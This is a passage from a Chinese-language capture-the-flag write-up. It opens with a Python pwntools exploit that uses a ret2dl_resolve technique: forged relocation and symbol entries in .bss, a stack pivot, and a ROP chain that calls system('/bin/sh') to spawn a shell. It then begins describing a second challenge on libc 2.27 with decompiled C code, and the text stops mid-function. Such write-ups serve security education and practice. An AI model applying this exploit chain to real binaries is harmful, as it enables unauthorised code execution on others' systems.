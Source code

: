 ```py
    fake_rel_off = (bss_base+20+4) - rel_plt
    #rel 0x8 4 bytes padding
    fake_got = libc_start_got
    fake_sym_off = (((bss_base+20+4+8 - dyn_sym)/ 0x10) << 8) + 7
    fake_rel = p32(fake_got)+p32(fake_sym_off)
    #sym 0x10
    st_name = (bss_base+20+4+8+0x10 - dyn_str)
    fake_sym = p32(st_name)+p32(0)+p32(0)+chr(0x12)+chr(0)+p16(0)
    #
    strngs = "system\x00\x00"
    strngs += "/bin/sh\x00"
    binsh_addr = (bss_base+20+4+8+0x10+8)
    resolve_plt = elf.get_section_by_name('.plt').header.sh_addr
    #rop len == 20
    payload = p32(0x080482b2)
    payload += p32(resolve_plt)+p32(fake_rel_off)+'a'*4+p32(binsh_addr)
    buf = payload
    buf += 'a'*4#pad
    buf += fake_rel
    buf += fake_sym
    buf += strngs

    raw_input()
    p.send(p32(p_ebp)+p32(bss_base)+p32(leave_ret)+'a'*0x2ec+buf)
    #p.send(buf)
    p.interactive()

exp()
```

### pwn2

#### 程序逻辑 & 漏洞利用

pwn2 其实是最近很流行的exit利用的一种，xctf的时候我成功利用过一次，当时比赛的时候由于ld.so没给，libc和ld的偏移也没确定，远程失败，这次大概猜到最后的利用链，但是还是没想明白怎么泄露地址。

题目为libc 2.27，一共有7次写的机会。

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+3h] [rbp-2Dh]
  unsigned int i; // [rsp+4h] [rbp-2Ch]
  size_t size; // [rsp+8h] [rbp-28h]
  _BYTE *chunk_addr; // [rsp+10h] [rbp-20h]
  __int64 idx; // [rsp+18h] [rbp-18h]
  char num_buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v9; // [rsp+28h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  __isoc99_scanf(&unk_B54, &size);
  chunk_addr = malloc(size);
  if ( !chunk_addr )
    exit(7777);
  for ( i = 0; (signed int)i <= 6; ++i )
  {
    printf("%d\n", i);
    memset(&num_buf, 0, 8uLL);
    read(0, &num_buf, 8uLL);
    read(0, &buf, 1uLL);
    idx = get_num((__int64)&num_buf);
```